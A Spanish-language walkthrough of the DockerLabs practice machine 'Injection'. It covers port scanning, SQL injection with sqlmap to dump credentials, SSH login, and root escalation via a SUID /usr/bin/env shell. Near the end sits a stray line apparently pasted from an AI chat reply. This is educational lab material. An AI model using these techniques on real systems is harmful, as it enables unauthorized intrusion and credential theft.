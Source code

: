 # 🖥️ Máquina: Injection  
**Nivel:** Muy fácil  
**Objetivo:** Obtener acceso como usuario `root` mediante explotación de vulnerabilidades web y escalada de privilegios en el sistema.

---

## 🧩 Descripción

Se trata de una máquina vulnerable con una aplicación web que permite realizar una inyección SQL. El objetivo es identificar los servicios expuestos, explotar la vulnerabilidad, obtener acceso como usuario del sistema y escalar privilegios a `root`.

---

## 🛠️ Despliegue

![](/Injection/Imagenes/Logo.png)

Primero, descargamos el archivo comprimido con la máquina desde DockerLabs. Posteriormente lo descomprimimos y lo desplegamos en el entorno local utilizando los siguientes comandos:

```bash
unzip trust.zip
sudo bash auto_deploy.sh injection.tar
```

![](/Injection/Imagenes/Inicio.jpeg)

---

## 🔎 Verificación de conectividad

Se verifica que la máquina se encuentra activa realizando un `ping` a su dirección IP:

```bash
ping -c4 172.17.0.2
```

![](/Injection/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración de puertos

Se realiza un escaneo de todos los puertos (`-p-`) con `nmap`, utilizando TCP SYN scan (`-sS`) y velocidad aumentada (`--min-rate 5000`):

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:
- **22**: SSH
- **80**: HTTP

![](/Injection/Imagenes/Puertos.jpeg)

Se realiza un segundo escaneo más detallado en los puertos detectados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Este escaneo utiliza scripts por defecto (`-sC`) y detección de versiones (`-sV`) para identificar servicios y posibles vulnerabilidades asociadas.

![](/Injection/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis web manual

Al acceder al sitio web en el puerto 80 desde el navegador, se visualiza un formulario de inicio de sesión.

![](/Injection/Imagenes/Pagina.jpeg)

Como prueba inicial, se introduce un carácter de comilla simple `'` en uno de los campos del formulario. La aplicación devuelve un error, lo cual indica que probablemente esté concatenando directamente la entrada del usuario en una consulta SQL sin sanitización, mostrando **posible vulnerabilidad a inyección SQL**.

---

## 🧪 Interceptación con Burp Suite y explotación con SQLMap

La solicitud del formulario se intercepta mediante Burp Suite. Se guarda la petición HTTP en un archivo `.req` para su análisis automatizado:

![](/Injection/Imagenes/Burp.jpeg)

Luego se ejecuta `sqlmap` sobre dicha petición con opciones elevadas de detección:

```bash
sqlmap -r peticiones.req --level=5 --risk=3 --dump
```

- `-r`: especifica el archivo con la petición HTTP.
- `--level=5` y `--risk=3`: aumentan la agresividad y profundidad de las pruebas.
- `--dump`: indica que se desea extraer el contenido de las bases de datos vulnerables.

Como resultado, se obtiene una tabla con **nombres de usuario y contraseñas**.

![](/Injection/Imagenes/usuarios.jpeg)

---

## 🔐 Acceso al sistema por SSH

Con las credenciales obtenidas, se intenta acceder al sistema mediante SSH:

```bash
ssh dylan@172.17.0.2
```

El acceso es exitoso, lo que confirma que la base de datos contenía credenciales válidas para un usuario del sistema.

---

## ⬆️ Escalada de privilegios

Se busca ejecutar procesos como `root` que estén configurados con el bit SUID habilitado, lo cual permite que se ejecuten con privilegios elevados independientemente del usuario que los ejecute:

```bash
find / -perm -4000 -user root 2>/dev/null
```

Entre los binarios listados se encuentra:

```
/usr/bin/env
```

Este binario es relevante porque permite ejecutar un comando o script dentro de un entorno modificado. Cuando está marcado con el bit SUID y pertenece a `root`, se puede abusar para ejecutar una shell como `root`.

### ¿Por qué `/usr/bin/env` es útil?

El binario `env` puede ser usado para invocar un intérprete de comandos (`/bin/sh`) con privilegios elevados, debido a que:

- Tiene el bit **SUID** activo.
- Permite la ejecución de binarios arbitrarios bajo el entorno actual.
- No requiere argumentos especiales ni validación adicional.

Si el sistema no restringe esta ejecución (por ejemplo, mediante `noexec` o `secure_path`), se puede obtener una shell con privilegios de root usando:

```bash
/usr/bin/env /bin/sh -p
```

- La opción `-p` preserva los privilegios efectivos del ejecutable padre (en este caso, `root`), lo que resulta en una shell con permisos de superusuario.

Ejecución:

```bash
dylan@2bb2e0218567:/$ /usr/bin/env /bin/sh -p
# whoami
root
# exit
```

![](/Injection/Imagenes/SSh.jpeg)

---

## ✅ Conclusión

Se logró el objetivo de comprometer el sistema y obtener acceso como `root`. El proceso incluyó:

1. Enumeración de puertos expuestos (22 y 80).
2. Detección de una vulnerabilidad de inyección SQL en un formulario web.
3. Explotación de la vulnerabilidad para extraer credenciales válidas.
4. Acceso al sistema mediante SSH con dichas credenciales.
5. Escalada de privilegios abusando del binario `/usr/bin/env` con SUID activo para ejecutar una shell como `root`.

Este ejercicio demuestra la importancia de validar correctamente las entradas del usuario, así como limitar el uso de binarios con SUID innecesarios en sistemas productivos.

Perfecto. Aquí tienes el reporte actualizado con una **nota técnica** aclarando que el uso de herramientas automatizadas como **Burp Suite** o **SQLMap** puede estar **prohibido en ciertas certificaciones**, como OSCP o similares, y que es responsabilidad del profesional seguir las políticas establecidas.

---

> ⚠️ **Nota:** En ciertas certificaciones como **OSCP**, **OSWE**, o entornos de evaluación restringidos, el uso de herramientas automatizadas como **Burp Suite Intruder** o **SQLMap** puede estar **estrictamente prohibido**. Estas herramientas simplifican la explotación, pero pueden ir en contra de los principios de aprendizaje, análisis manual o evaluación ética establecidos por la organización. Asegúrate siempre de revisar las políticas antes de usarlas.
